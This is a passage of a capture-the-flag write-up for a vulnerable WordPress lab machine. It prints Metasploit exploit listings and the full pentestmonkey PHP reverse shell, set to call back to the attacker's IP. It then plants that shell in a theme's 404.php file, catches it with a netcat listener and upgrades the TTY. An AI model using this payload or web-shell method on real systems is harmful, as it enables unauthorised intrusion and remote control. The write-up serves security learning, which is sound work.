   5   exploit/osx/local/rootpipe                                     2015-04-09       great      Yes    Apple OS X Rootpipe Privilege Escalation
   6   exploit/windows/ftp/easyftp_cwd_fixret                         2010-02-16       great      Yes    EasyFTP Server CWD Command Stack Buffer Overflow
   7   exploit/freebsd/local/rtld_execl_priv_esc                      2009-11-30       excellent  Yes    FreeBSD rtld execl() Privilege Escalation
   8   auxiliary/scanner/kademlia/server_info                                          normal     No     Gather Kademlia Server Information
   9   exploit/unix/webapp/joomla_akeeba_unserialize                  2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   10  exploit/windows/fileformat/ms12_005                            2012-01-10       excellent  No     MS12-005 Microsoft Office ClickOnce Unsafe Object Package Handling Vulnerability
   11  exploit/unix/webapp/php_xmlrpc_eval                            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
   12  exploit/unix/http/pihole_dhcp_mac_exec                         2020-03-28       good       Yes    Pi-Hole DHCP MAC OS Command Execution
   13  exploit/linux/misc/quest_pmmasterd_bof                         2017-04-09       normal     Yes    Quest Privilege Manager pmmasterd Buffer Overflow
   14  exploit/windows/http/sws_connection_bof                        2012-07-20       normal     Yes    Simple Web Server Connection Header Buffer Overflow
   15  exploit/multi/php/wp_duplicator_code_inject                    2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   16  exploit/multi/http/wp_db_backup_rce                            2019-04-24       excellent  Yes    WP Database Backup RCE
   17  exploit/windows/fileformat/winrar_name_spoofing                2009-09-28       excellent  No     WinRAR Filename Spoofing
   18  post/windows/gather/credentials/razer_synapse                                   normal     No     Windows Gather Razer Synapse Password Extraction
   19  exploit/multi/http/wp_ait_csv_rce                              2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   20  exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  Yes    WordPress Admin Shell Upload
   21  auxiliary/gather/wp_all_in_one_migration_export                2015-03-19       normal     Yes    WordPress All-in-One Migration Export
   22  exploit/unix/webapp/wp_asset_manager_upload_exec               2012-05-26       excellent  Yes    WordPress Asset-Manager PHP File Upload Vulnerability
   23  auxiliary/scanner/http/wordpress_login_enum                                     normal     No     WordPress Brute Force and User Enumeration Utility
   24  auxiliary/scanner/http/wordpress_cp_calendar_sqli              2015-03-03       normal     No     WordPress CP Multi-View Calendar Unauthenticated SQL Injection Scanner
   25  auxiliary/scanner/http/wp_chopslider_id_sqli                   2020-05-12       normal     No     WordPress ChopSlider3 id SQLi Scanner
```

<p></p>
Looking through the results number 20 looks interesting, lets find out some more info on it using the following command:
<p></p>

```
info 20
```

<p></p>
Which outputs:
<p></p>

```
msf6 > info 20

       Name: WordPress Admin Shell Upload
     Module: exploit/unix/webapp/wp_admin_shell_upload
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-02-21

Provided by:
  rastating

Available targets:
  Id  Name
  --  ----
  0   WordPress

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    yes       The WordPress password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the wordpress application
  USERNAME                    yes       The WordPress username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module will generate a plugin, pack the payload into it and 
  upload it to a server running WordPress providing valid admin 
  credentials are used.
```

<p></p>
We can see the description at the bottom of the output and this looks like it could be useful so lets use it, to do this we enter the following command:
<p></p>

```
use 20
```

<p></p>
next we are presented with a changed command line so we need to enter 'show options' and are presented with the following:
<p></p>

```
msf6 > use 20
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.125.135  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /secret          yes       The base path to the wordpress application
   USERNAME   admin            yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.125.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

<p></p>
Yours will have blank space next to most of the fields, IOT change them you need to enter set + feild + value ie.
<p></p>

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password admin
password => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.125.135
rhosts => 192.168.125.135

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /secret
targeturi => /secret

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
username => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 192.168.125.134
lhost => 192.168.125.134
```

<p></p>
Then simply enter exploit and hopefully you are presented with a shell instead of an error.
<p></p>


```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.125.134:4444 
[*] Authenticating with WordPress using admin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 4f8184143b
[-] Failed to upload plugin AFyvBhdZph
[-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
[*] Exploit completed, but no session was created.
```

<p></p>
But hey, this is why you have different tools in your arsenel because your normal methods may not always work, so I will show you how to do a simple php reverse shell upload and hopefully we can get in that way (if msf worked for you congrats, read through the following if you want otherwise skip to the next part).
<p></p>
Since msf didn't work I will go through usisng a preconfigured php reverse shell (if you want to learn how to create your own shell refer to my Mr Robot <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a>) to start we need to obtain the reverse shell script, if you are using Parrot or kali it comes on the distro by defualt otherwise you can download it from <a href="https://github.com/pentestmonkey/php-reverse-shell" rel="nofollow">here</a> to download it run the following command:
<p></p>

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

<p></p>
If you are using Parrot or kali it is located in:
<p></p>

```
/usr/share/webshells/php/php-reverse-shell.php
```

<p></p>
You can create a copy of this file in your working directory by using the following command:
<p></p>

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

<p></p>
Once we have a fresh copy of this file we want to edit it with a next editor like nano, vim,vi etc. Lets have a look at the script.
<p></p>

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

<p></p>
Looking through this script there are only two things we need to change.
<p></p>

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

<p></p>
This part is found at the very top of the file, we need to change this to our ip address and a port that we pick. ie.
<p></p>

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.125.134';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

<p></p>
Once we have changed these two parts in the script we need to upload it to the site, to do this we need to navigate to appearance editor.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpeditor.png"><br>
</div>
<p></p>
We then need to select the theme to edit, I will use the twentyfifteen theme.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpselecttheme.png"><br>
</div>
<p></p>
Next we need to select the .php file we want to edit, I will be editing the 404.php file.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpthemefile.png"><br>
</div>
<p></p>
And finally we need to delete all the existing code in the file and replace it with out php reverse shell code.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/c248ddd6e4649113df59ee387e6e9725e493612b/Starting_Point/VulnHub/BasicPentesting1/images/wpphpupload.png"><br>
</div>
<p></p>
Once we have coppied our shell script we need to click update file, this is all we need to do with the website all we need to do now is set up a listner on our machine IOT catch the reverse shell and then navigate to the reverse shell file in our browser to initiate the connection. Lets set up our listner, we are going to use netcat to do this in our terminal, the command we use is:
<p></p>

```
nc -nvlp 1337
```

<p></p>
Once we run this it looks like the program hangs, this is because it is waiting for a connection which we will initiate in the next step. First lets go over what this command is doing. The <kbd>-n</kbd> flag is telling nc to only pay attention to numeric-only IP addresses, no DNS the <kbd>-v</kbd> flag is telling nc to output verbose information, the <kbd>-l</kbd> flag is telling nc to be in listen mode, waiting for inbound connections and the <kb>-p</kb> flag is telling nc local port number to listen on.
<p></p>
Now that we have our listner waiting for a connection lets initiate that by navigating to the 404.php file that we edited earlier. To do this we will navigate to the following address:
<p></p>

```
192.168.125.135/secret/wp-content/themes/twentyfifteen/404.php
```

<p></p>
When we navigate to this website it looks like it hangs, however if we change back to our terminal we can see that something has happened to our nc listner.
<p></p>

```
❯ nc -nvlp 1337
listening on [any] 1337 ...
connect to [192.168.125.134] from (UNKNOWN) [192.168.125.135] 46210
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:43:53 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<p></p>
We can see that we have successfully gained access to our target VM! But what do we need to do now? The first thing I want to do is get a propper TTY shell, I will then want to enumerate the system as I know from the challenge description that the only flag is located in the root folder and I will need to carry out priveledge escalation IOT access it.
<p></p>
Lets carry out our first task of gaining a propper TTY shell as usual lets reference one of my favourite sites <a href="https://book.hacktricks.xyz/shells/shells/full-ttys" rel="nofollow">HackTricks</a> to see how to get a full TTY:
<p></p>

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

<p></p>
Above are the commands it gives for creating a full TTY shell so lets enter them and see how it changes our shell. After entering the first line of commands we can see how our comman line changes.
<p></p>

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@vtcsec:/$ 
```

<p></p>
The second line of code is to make it so you have tab auto complete (this is optional and I rarely do it however its up to you).
<p></p>














</details>